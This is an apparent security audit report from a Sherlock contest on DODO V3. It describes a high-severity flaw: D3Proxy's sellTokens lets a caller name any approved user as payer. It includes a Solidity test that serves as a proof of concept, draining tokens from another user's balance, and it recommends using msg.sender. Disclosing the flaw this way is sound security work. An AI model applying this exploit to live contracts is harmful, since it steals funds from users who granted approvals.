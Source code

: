 qckhp

high

# Possible to sell tokens from other user funds who approved DODOApprove contract

## Summary
It's possible to sell tokens from victims who approved DODOApprove contract before.

## Vulnerability Detail
In [D3Proxy.sol](https://github.com/sherlock-audit/2023-06-dodo/blob/main/new-dodo-v3/contracts/DODOV3MM/periphery/D3Proxy.sol) `sellTokens` function's `data` parameter determines who will be the payer for the swap, which can be set by a malicious user.
For example: we set `SwapCallbackData.payer` value to a victim who approved the DODOApprove contract before resulting the fromToken will be pulled from the victim.

## Impact
Loss of user funds.

## Code Snippet
https://github.com/sherlock-audit/2023-06-dodo/blob/main/new-dodo-v3/contracts/DODOV3MM/periphery/D3Proxy.sol#L87

For PoC add test to D3Trading.t.sol:
```solidity
function testNormalSellTokensFromOtherOtherPayer() public {
        uint256 beforeBalance2 = token2.balanceOf(user1);
        uint256 beforeBalance3 = token3.balanceOf(user1);

        uint256 beforeBalanceUser22 = token2.balanceOf(user2);
        uint256 beforeBalanceUser23 = token3.balanceOf(user2);

        SwapCallbackData memory swapData;
        swapData.data = "";
        swapData.payer = user1;

        uint256 gasleft1 = gasleft();
        vm.startPrank(user2);
        uint256 receiveToToken = d3Proxy.sellTokens(
            address(d3MM),
            user2,
            address(token2),
            address(token3),
            1 ether,
            0,
            abi.encode(swapData),
            block.timestamp + 1000
        );
        vm.stopPrank();
        uint256 gasleft2 = gasleft();
        console.log("sellToken1stTime gas\t", gasleft1 - gasleft2);

        uint256 afterBalance2 = token2.balanceOf(user1);
        uint256 afterBalance3 = token3.balanceOf(user1);

        uint256 afterBalanceUser22 = token2.balanceOf(user2);
        uint256 afterBalanceUser23 = token3.balanceOf(user2);

        //console.log(receiveToToken);
        assertEq(beforeBalance2 - afterBalance2, 1 ether);
        assertEq(afterBalance3 - beforeBalance3, 0);
        assertEq(afterBalance3 - beforeBalance3, 0);

        assertEq(beforeBalanceUser22 - afterBalanceUser22, 0);
        assertEq(afterBalanceUser23 - beforeBalanceUser23, receiveToToken);
        assertEq(afterBalanceUser23 - beforeBalanceUser23, 11959881980233813532);
    }
```
## Tool used

Manual Review

## Recommendation
swapData.payer should be set to msg.sender by the D3Proxy